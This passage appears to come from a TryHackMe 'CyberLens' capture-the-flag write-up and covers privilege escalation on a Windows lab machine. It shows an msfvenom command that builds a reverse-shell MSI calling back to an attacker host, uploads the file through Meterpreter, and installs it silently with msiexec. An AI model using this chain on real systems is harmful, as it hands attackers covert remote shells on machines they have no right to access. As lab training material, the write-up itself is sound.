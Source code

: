 ### Privilege Escalation
We will use **msfvenom** to generate a **malicious MSI shell** for **exploitation**.
```console
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=<tun0-ip> LPORT=<port> \
-a x64 --platform windows -f msi -o shell.msi
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: shell.msi
```
Next, we will **upload** the `shell.msi` file to the **target system** using the **Meterpreter shell.**
```shell
meterpreter > upload shell.msi
[*] Uploading  : TryHackMe/CyberLens/shell.msi -> shell.msi
[*] Uploaded 156.00 KiB of 156.00 KiB (100.0%): shell.msi -> shell.msi
[*] Completed  : TryHackMe/CyberLens/shell.msi -> shell.msi
meterpreter >
```
Switching from the **Meterpreter shell** to the **Windows command shell**,
```shell
meterpreter > shell
Process 5036 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\CyberLens\Desktop>dir

Volume in drive C has no label.
Volume Serial Number is A8A4-C362

Directory of C:\Users\CyberLens\Desktop

03/03/2025  12:42 AM    <DIR>          .
03/03/2025  12:42 AM    <DIR>          ..
03/03/2025  12:42 AM           159,744 shell.msi
06/06/2023  07:54 PM                25 user.txt
               4 File(s)        160,850 bytes
               2 Dir(s)  14,956,318,720 bytes free

C:\Users\CyberLens\Desktop>
```
> Don't **forget** to start a **Netcat listener** on your desired **port** to catch the **reverse shell connection**.
{: .prompt-warning }
We use the following `command` to **execute** the **MSI payload.** 

```bash
msiexec /quiet /qn /i shell.msi
```
**Explanation**
- **msiexec** → Windows Installer command-line tool to install MSI packages.  
- **/quiet** → Runs the installation in the background without showing any UI.  
- **/qn** → Uses "No UI" mode, ensuring complete stealth.  
- **/i** → Specifies installation mode for the given MSI file.  
- **shell.msi** → The malicious MSI file that delivers our reverse shell payload.  
